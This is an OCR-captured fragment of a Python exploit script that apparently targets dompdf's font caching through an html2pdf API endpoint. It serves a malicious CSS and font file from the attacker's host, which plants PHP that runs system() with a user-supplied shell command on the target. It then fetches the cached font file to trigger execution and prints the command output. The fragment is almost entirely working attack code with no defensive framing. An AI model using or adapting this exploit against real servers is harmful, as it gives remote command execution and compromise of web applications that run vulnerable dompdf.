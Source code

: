 ```py
        print("[+] Serving at port", port)
        httpd.serve_forever()
    except OSError as e:
        print(e)

def trigger_exploit(remote_host , local_host, server_port, css, cached):
    data = {"html": f"<link rel=stylesheet href='http://{local_host}:{server_port}/{css}'>"}
    session.post(f"{remote_host}/api/html2pdf", json=data)

    cached_url = f"{remote_host}/vendor/dompdf/dompdf/lib/fonts/{cached}"
    print("...", cached_url)
    resp = session.get(cached_url, timeout=10)

    if resp.status_code == 200:
        match = re.search(r"poorduck(.*)", resp.text, re.DOTALL)
        if match:
            print("[+] Output -\n")
            print(match.group(1))

    else:
        exit(f"[!] Something went wrong - {resp.status_code}")


if __name__ == "__main__":

    srv_port = 8000

    exploit_code = "echo 'poorduck'; "
    try:
        exploit_code += f"system('{sys.argv[1]}'); exit;"
    except IndexError as e:
        exit("Usage: script.py [COMMAND]")

    try:
        http_thread = threading.Thread(target=start_http_server, args=(srv_port,))
        http_thread.daemon = True
        http_thread.start()

        cache_fn, css_fn, font_fn =  init_files(ip=lhost, php=exploit_code)
        trigger_exploit(remote_host=rhost, local_host=lhost, server_port=srv_port, css=css_fn, cached=cache_fn)
    except KeyboardInterrupt as e:
        print(e)
    except Exception as e:
        print(e)
    finally:
        import os; [os.remove(f) for f in [css_fn, font_fn] if os.path.isfile(f)]

```
